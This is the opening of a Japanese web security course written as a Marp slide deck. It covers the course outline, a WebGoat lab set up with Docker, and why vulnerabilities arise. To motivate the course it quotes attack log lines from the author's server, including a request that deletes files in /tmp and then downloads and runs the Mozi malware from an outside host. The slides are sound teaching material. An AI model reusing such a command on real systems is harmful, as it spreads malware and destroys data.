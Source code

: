 ```yaml
---
theme: gaia
_class: lead
paginate: true
backgroundColor: #fff
backgroundImage: url('https://marp.app/assets/hero-background.jpg')
marp: true
---
```


# Webセキュリティ講座

---

## 本講義の流れ
* Webのセキュリティについて
* SQLインジェクション
* パストラバーサル
* XSS
* CSRF
* 脆弱性診断（自動診断）

---

## 環境の確認

本講義では以下のツールを使用します。

* Docker, Docker Compose
  * Docker Desktop for Mac または Docker Desktop for Windows
* Owasp ZAP

---

## WebGoatの設定

https://github.com/takapi86/docker-webgoat

```bash
git clone git@github.com:takapi86/docker-webgoat.git # gitをインストールしていない方はZIPをダウンロードして展開してください
cd docker-webgoat
docker-compose up
```

以下のURLにアクセスし、ログインページが表示されれば成功です。

http://localhost:8080/WebGoat

---

## Webシステムのセキュリティ

なぜ学ぶ必要があるか？

=> 常にWebシステム・Webサービスは狙われている

昨日、外部に公開している練習用のRailsアプリケーションのログを確認したのですが、毎日攻撃がきていました😱

```nginx
"GET /shell?cd+/tmp;rm+-rf+*;wget+http://XXX.XXX.XXX.XXX:49225/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1" 404
```

```nginx
"POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1" 404
"GET /wp-content/plugins/wp-file-manager/readme.txt HTTP/1.1" 404
```

---

### 最近のインシデント・事故

https://scan.netsecurity.ne.jp/category/incident/

---

なぜ、セキュリティ事故は起こるのか？
* どんなシステムでも突破する凄腕のハッカーがいるから🙅‍♀️
* システムに欠陥があって悪用できるから🙆‍♀️

---

* サーバーやシステム設定ミス、OSやソフトウェア脆弱性
* Webアプリケーション脆弱性
  * 設計上欠陥
  * プログラムバグ

これらが悪用されることで様々なセキュリティ侵害が発生する

---

脆弱性とは？

ソフトウェアを悪用できるバグ

つまり我々エンジニア開発者によって作られる

---

なぜ、脆弱性を作り込んでしまうのか？

要因の一つとして

* 脆弱性に関する知識不足
* アプリケーション設計不足

安全なアプリケーションを開発するためには、脆弱性について知ることが大切

---

今回はWebアプリケーションの脆弱性である
* SQLインジェクション
* パストラバーサル
* XSS
* CSRF

について、実際に攻撃手法、対策方法を学んでいきましょう。
